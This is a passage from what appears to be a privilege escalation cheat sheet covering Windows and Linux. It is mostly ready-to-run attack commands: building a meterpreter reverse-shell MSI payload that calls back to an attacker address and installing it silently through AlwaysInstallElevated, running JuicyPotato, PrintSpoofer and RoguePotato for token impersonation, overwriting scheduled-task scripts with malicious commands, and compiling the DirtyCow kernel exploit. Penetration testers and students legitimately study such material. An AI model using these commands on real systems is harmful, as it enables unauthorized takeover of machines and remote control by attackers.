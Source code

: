 #### 4. Registry Exploits

```powershell
# AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are 1, create MSI payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f msi -o payload.msi

# Install with elevated privileges
msiexec /quiet /qn /i payload.msi
```

#### 5. Token Impersonation

```powershell
# Juicy Potato (Windows Server 2016 and earlier)
JuicyPotato.exe -l 1337 -p C:\windows\system32\cmd.exe -a "/c whoami > C:\output.txt" -t *

# PrintSpoofer (Windows 10/Server 2019)
PrintSpoofer.exe -i -c cmd

# RoguePotato
RoguePotato.exe -r 10.0.0.1 -e "cmd.exe" -l 9999
```

#### 6. Scheduled Tasks

```powershell
# List scheduled tasks
schtasks /query /fo LIST /v

# Check permissions
icacls C:\path\to\task\script.bat

# Modify task
echo "malicious command" > C:\path\to\task\script.bat
```

### Linux Privilege Escalation

#### 1. Kernel Exploits

```bash
# Check kernel version
uname -a
cat /proc/version

# Search for exploits
searchsploit linux kernel $(uname -r)

# Example: DirtyCow (CVE-2016-5195)
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
